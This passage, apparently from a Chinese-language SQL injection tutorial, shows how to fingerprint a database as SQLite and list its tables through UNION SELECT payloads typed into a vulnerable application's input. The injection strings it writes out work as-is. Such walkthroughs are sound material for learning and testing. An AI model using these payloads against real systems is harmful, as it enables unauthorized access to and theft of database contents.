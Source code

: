 以下是不同语法的列表:

*   **神谕** : `SELECT version FROM v$instance`
*   **微软** : `SELECT @@version`
*   **PostgreSQL** : `SELECT version()`
*   **MySQL**
*   **SQLite** : `SELECT sqlite_version()`

知道包含产品的表有四列，我们可以设计查询来猜测什么是 DBMS。

输入应该是这样的:

```
' UNION SELECT 1, 1, 1, version_request --
```

唯一没有返回错误的查询是 SQLite 查询，所以我们有了另一个有价值的信息。

```
' UNION SELECT 1, 1, 1, sqlite_version() --
```

![](img/b6e280755529c7e808ce2183e7f3e65f.png)

# 获取表的名称

在我们的 SQL 注入之旅的这一点上，我们需要知道表的名称，但是在开发应用程序之前，我将向您展示如何在 SQLite 中使用查询来做到这一点。

```
SELECT name 
FROM sqlite_schema 
WHERE type ='table' AND name NOT LIKE 'sqlite_%'
```

因此，在下一步中，我们希望将结果显示到我们的表中。
我们可以通过 UNION SELECT 做到这一点，这一点我们已经很清楚了。这将是我们的输入:

```
' UNION SELECT 1, 1, 1,name FROM sqlite_schema WHERE type ='table' AND name NOT LIKE 'sqlite_%'--
```

上面的查询将让应用程序提示属于该应用程序的所有表，这将是结果。

![](img/57fcfb84c1cc2dae5ae05236a366446f.png)
